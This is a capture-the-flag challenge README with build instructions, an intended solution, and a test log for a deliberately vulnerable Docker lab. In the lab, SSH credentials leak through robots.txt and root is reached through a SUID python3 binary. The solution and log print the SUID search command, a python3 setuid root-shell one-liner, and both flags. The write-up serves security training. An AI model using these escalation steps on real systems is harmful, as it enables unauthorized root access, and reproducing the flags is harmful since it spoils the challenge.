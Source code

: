 # DevSec? Overrated... (1 & 2)
- Author: [supasuge](https://github.com/supasuge) | Evan Pardon
- Category: Web Linux System Exploitation
- Tags: *Linux System Exploitation* | *Linux Privilege Escalation*

**Challenge Rules**

1. Do not make changes to the file system, or use automated scripts to escalate privileges/find weaknesses. `find`, and `python3` is all you need.
  - Protections have been put in place to make the file system immutable/non-readable (with the exception of the `user`/`root` flag's of course), however this is easily over-ridden once privileges are escalated to the root user.
2. No bruteforcing/credential stuffing. The use of any automated web fuzzers such as `ffuf`/`gobuster` is not allowed for this challenge and is very unnecessary.
  - `fail2ban` + strict SSH login policies enforced. (fail2ban yet to be added to Dockerfile config)

## Description

**Challenge Description for production**

Developer security operations? Blame it on the robots... those dang tin cans never know when to keep their mouth shut. Rumor has it SSH credentials are exposed on the web server. As our in-house penetration tester, it's your job to find this weakness and login to the server and attempt privilege escalation. For part 1, submit the flag found under: `/home/ctfuser/user.txt`, for part 2 submit the flag found under: `/root/root.txt` after escalating privileges. 

> Note: Credential stuffing/bruteforcing of any kind is not allowed in this challenge. This includes tools such as `hydra`, `ffuf`, `gobuster`, `feroxbuster` and many more. Failure to comply will result in possible disqualification or a point penalty depending on circumstances.

---

**Challenge Description for internal use**

This challenge feature's a website running on port `8000` of the container served simply via `nginx`. The goal of this challenge is to check `robots.txt` for any hidden endpoints, from which point you'll see multiple hidden endpoints; one of which (`/admin/credentials.txt`) contains the Username/Password to SSH onto the server (`2222`).

To get Flag 1 (Pt.1), simply submit the user flag found in `user.txt`.

To get Flag 2 (Pt.2), find a way to escalate your privileges to the root user and submit the root flag in `root.txt`.

## Build

```bash
cd build
docker build -t devsec-nope .
```

## Run

- The command below will use port `8000` for the website, and `2222` for the SSH Server. If you wish to change the port, do so by changing the corresponding values below. The [build/Dockerfile](https://github.com/cyberOU/GrizzHacks7-CTF/blob/main/Web/DevSec-no-thanks-1-and-2/build/build/Dockerfile) exposes port `80` (HTTP) and `22` (OpenSSH).


```bash
docker run -d -p 8000:80 -p 2222:22 devsec-nope:latest
```

## Solution

##### Pt.1

To get a shell as `ctfuser`:
1. View `robots.txt` to find hidden/non-indexed endpoints.
2. Find credentials under `/admin/credentials.txt`
3. SSH to the server as `ctfuser`
4. Get the flag in `user.txt`

##### Pt.2

Shell as `root`:
1. Search for SUID binaries: `find / -perm -4000 2>&/dev/null`
2. Locate the SUID python binary, then run: `python3 -c 'import os; os.setuid(0); os.system("/bin/bash")` to successfully escalate your privileges and get a shell as the root user.
3. Get the final flag in `root.txt`

### Output from Testing

```bash
❯ ssh ctfuser@localhost -p 2222
ctfuser@localhost's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 6.13.4-arch1-1 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctfuser@84b04e070f2c:~$ python3 -c 'import s os; os.setuid(0);os.system("/bin/bash")'
root@84b04e070f2c:~# whoami
root
root@84b04e070f2c:~# ls
user.txt
root@84b04e070f2c:~# pwd
/home/ctfuser
root@84b04e070f2c:~# cat user.txt
GrizzCTF{us3r_pwn3d_n01 c3_j0b_w4tch_0ut_4_pyth0ns}
root@84b04e070f2c:~# cd /root
root@84b04e070f2c:/root# cat root.txt
GrizzCTF{DevSec_Inf0S3c_00ps13_pwn3d_n01c3}
```
